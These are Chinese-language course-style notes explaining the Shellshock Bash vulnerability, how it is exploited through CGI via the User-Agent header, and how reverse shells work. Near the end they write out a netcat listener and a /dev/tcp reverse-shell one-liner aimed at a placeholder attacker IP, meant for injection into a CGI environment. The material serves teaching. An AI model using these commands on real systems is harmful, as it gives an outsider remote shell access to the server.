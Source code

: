 ```yaml
---
hide:
  #- navigation # 显示右
  #- toc #显示左
  - footer
  - feedback
# comments: true
---  
```


# Shellshock

!!! abstract "Abstract"

	Shellshock 攻击于 2014 年 9 月 24 日被披露，是一个针对 Bash 中函数定义的漏洞，攻击者可以通过构造特定的环境变量来执行任意命令。该漏洞影响了许多 Unix 和 Linux 系统，尤其是那些使用 Bash 作为默认 shell 的系统。

## Shellshock Vulnerability

### Defining Functions in Shell

和其他语言一样，Shell 也是一种编程语言，在 Shell 脚本中，我们可以定义函数：

![](../../../../../assets/Pasted%20image%2020250705125915.png)

如上图，第一行我们定义了一个函数 `foo()`，并可以直接调用，同时，我们还可以用 `declare -f` 命令来查看当前 Shell 中定义的函数，用 `unset -f` 命令来删除一个函数
***
### Passing Function to Child Process

在 Shell 中，我们有两种方法将一个函数传递给子进程，第一种方法是在父 Shell 也是一个 bash 的情况下，在父 Shell 已经定义好函数的情况下，使用 `export -f` 命令，子进程会自动继承这个函数：

![](../../../../../assets/Pasted%20image%2020250705130411.png)

第二种方法是在父 Shell 不是一个 bash 甚至没有运行 bash 的情况下，我们可以通过环境变量来传递函数给子进程：

![](../../../../../assets/Pasted%20image%2020250705134339.png)

我们通过环境变量的定义和传递将函数的定义当做一个字符串完整的传到子进程中，可以看到，在父进程和子进程中，这个 `foo` 函数始终都没有被当做是一个真正的函数，随后子进程就拿到了整个函数的字符串定义
***
### Shellshock Vulnerability

如果，子进程将我们拿到的字符串定义解析成了一个函数，那么就会有其他额外的危险发生，如下图，我们在原来的函数定义后注入一句其他的命令，在父进程中，这个环境变量仍然只是一个字符串，并没有将其当做是函数定义，但当我们将这个环境变量传递给子进程时，子进程会将这个字符串当做是一个函数定义来解析，而我们附加注入的命令同样也能被执行

![](../../../../../assets/Pasted%20image%2020250705134454.png)

那么为什么会这么发生呢？在一个有 Shellshock 漏洞的 Shell 中，在启动时，Shell 会检查环境变量中是否有类似函数定义的情况，如果有，它会将这个函数定义解析成一个真正的函数，这样就会导致我们注入的命令被执行

!!! note "Mistake in the Source Code"

	在 Bash 的源代码当中，它会在环境变量当中寻找有没有形如 `() {` 开头的字符串，如果发现有，那么它会去掉等号，形成一个真正的函数定义，而我们注入的命令被视作是函数定义后附加的语句，Bash 定义的函数还是 `parse_and_execute`，不仅解析了我们定义的函数，还执行了我们注入的命令
	
	![](../../../../../assets/Pasted%20image%2020250705135230.png)

- 从本质上来说，从数据（环境变量）到代码（函数定义）的转换是 Shellshock 漏洞的核心问题

Bash 解决这个问题的方法是，当识别到形如`() {` 的字符串时，Bash 会将其视为一个函数定义，保存到一个专门的环境变量 `BASH_FUNC_` 当中：

![](../../../../../assets/Pasted%20image%2020250705140047.png)

如上图，符号 `$$` 表示当前进程的 PID，Bash 会将这个函数定义保存到 `BASH_FUNC_foo` 的环境变量当中，通过专门的标记将这个环境变量标记为一个函数定义并特别对待，这样既不会被当做是一个普通的字符串来处理，也不去执行里面的内容
***
## Exploit the Vulnerability

> 通过上面的描述，我们可以知道，要实现 Shellshock 攻击，其核心在于两点，第一，子进程需要是一个 Bash 进程，第二，对于输入，我们必须通过环境变量的方式进行传递，其他方法无法触发漏洞

### Shellshock Attack on CGI: How CGI Works

Common Gateway Interface（CGI）是一种标准的协议，用于 Web 服务器和外部程序之间的通信。CGI 程序通常是用来处理 HTTP 请求并生成动态内容的

当一个用户需要调用一个 CGI 程序时，他会发送一个 HTTP 请求到 Web 服务器（例如 Apache），Web 服务器会根据请求的 URL（通常以 CGI 结尾）找到对应的 CGI 程序，然后创建一个子进程，将请求的参数作为环境变量传递给 CGI 程序，CGI 程序会处理这些环境变量，将结果送还给 Web 服务器，Web 服务器再生成一个 HTTP 响应返回给用户

在过去，CGI 通常是使用 Bash 脚本来编写的，同时 CGI 程序通常会从 Web 服务器继承环境变量来 获取参数，这是满足我们 Shellshock 攻击的两个条件

!!! example "Example"

	![](../../../../../assets/Pasted%20image%2020250705141325.png)
	
	如上图，我们写了一个非常简单的 CGI 程序，输出当前进程的环境变量，可以看到，我们确实得到了含有环境变量的 HTTP 响应
	
	最重要的是，我们传送的 HTTP 请求当中什么被传递给了 CGI 程序的环境变量，这其中有一个叫 User-Agent，它代表着浏览器的用户代理信息
	
	我们可以利用 `curl` 命令行工具来发送一个 HTTP 请求，模拟一个浏览器的行为，并在 User-Agent 中注入一个任意内容：
	
	![](../../../../../assets/Pasted%20image%2020250705142121.png)
	
	可以看到，我们注入的内容成功地成为了 CGI 程序的环境变量，那么我们换一个注入 Payload，就可以实现命令的执行
	
	- 一个有意思的现象是，如果我们利用这种方式创建文件，我们会发现这个文件的拥有者叫 `www-data`，这是因为 CGI 程序是由 Web 服务器（例如 Apache）以 `www-data` 用户的身份运行的，所以创建的文件也会以 `www-data` 用户的身份拥有。当然，这个用户通常是一个低权限用户，并不能执行很多操作
***
## Reverse Shell

### Reverse Shell Overview

Reverse Shell 的主要架构如下图：

![](../../../../../assets/Pasted%20image%2020250705143458.png)

对于我们所熟知的远程 Shell 例如 ssh, rsh，它们的工作方式是客户端主动连接到服务器端，服务器端经过权限授予提供一个 Shell 供客户端使用，而 Reverse Shell 则是在服务器端启动一个 shell，而输入和输出都通过网络传输与攻击者机器通信
***
### Implementation

要实现 Reverse Shell 也非常简单，我们在攻击者机器上运行一个监听端口的程序（通过命令行 `nc -lv port`），等待被攻击者机器连接，然后在被攻击者机器上运行 `bash -i >/dev/tcp/attackerIP/port 0<&1 2>&1` 来连接到攻击者机器

- 其中 `-i` 表示交互式模式，`>/dev/tcp/attackerIP/port` 表示将 shell 程序的标准输出设备 stdout 被重定向到一个指定的 TCP 连接。在 unix 系统中，stdout 的文件描述符为 1
- 文件描述符 0 表示标准输入设备 stdin，`0<&1` 表示使用标准输出设备作为标准输入设备。由于标准输出已经被重定向到 TCP 连接，因此标准输入也用同一个 TCP 连接
- 文件描述符 2 表示标准错误 stderr，`2>&1` 表示错误输出也被重定向到同一个 TCP 连接
	- 也可以使用 `2>&0`

![](../../../../../assets/Pasted%20image%2020250705145155.png)

如上图，左边两个终端均为攻击者机器，右边的终端为被攻击者机器，实现了 Reverse Shell 的效果，从效果上来看，Reverse Shell 和远程 Shell 的效果是一样的

结合 Shellshock，只要我们将命令 `/bin/bash -i >/dev/tcp/attackerIP/port 0<&1 2>&1` 注入到 CGI 程序的环境变量中，就可以实现 Reverse Shell 的攻击，从而做到获取被攻击者机器的 Shell，做一些更进一步的恶意操作






